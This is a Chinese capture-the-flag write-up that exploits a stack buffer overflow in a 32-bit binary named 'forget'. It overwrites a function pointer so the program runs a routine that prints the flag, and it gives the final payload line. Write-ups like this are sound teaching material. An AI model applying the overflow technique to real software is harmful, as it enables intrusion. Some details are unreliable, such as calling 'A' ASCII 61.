 1、准备工作
（1）chmod 777 forget
（2）file forget
显示：
forget: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
（3）./forget
显示：
What is your name?
> yang

Hi yang


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> 1345@qq.com                                                                                                     
:) Valid hai! 
（4）脚本checksec：
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
NX启用-所以我们不能在堆栈上执行shellcode

2、分析过程
IDA中F5查看第41行 __isoc99_scanf("%s", &v2);是脆弱点函数，但该函数主函数，没有办法溢出。
1）查看strings window找到"cat %s"以及"./flag"，根据交叉引用找到0x80486cc函数的语句大致为sprintf(command,"cat %s","./flag");system(command);可以直接得到shell。
第88行是将变量强制转换为函数指针类型：(*(&v3 + --v14))();如果v14为1时，可能执行v3，我们可以把0x80486cc的地址放入v3之中。
2）通过输入将0x80486cc的地址放入v3中：仔细观察后发现v2的栈顶位置为0x74，而v3的栈顶位置为0x54，我们可以利用溢出的方法在v2中输入(0x74-0x54)个a，之后再写入0x80486cc
3）将v14的值设为1：需要在
	case 1:
		if ( sub_8048702(*((_BYTE *)&v2 + i)) )
          		v14 = 2;
        	break;
代码中让函数sub_8048702(*((_BYTE *)&v2 + i))返回0
因此v2的值需要在v2 > 96 && v2 <= 122 || v2 > 47 && v2 <= 57 || v2 == 95 || v2 == 45 || v2 == 43 || v2 == 46;的范围之外，我们发现A的ASCII码值为61，满足条件。

4）构造payload：
payload='A'*(0x20)+p32(0x80486CC)
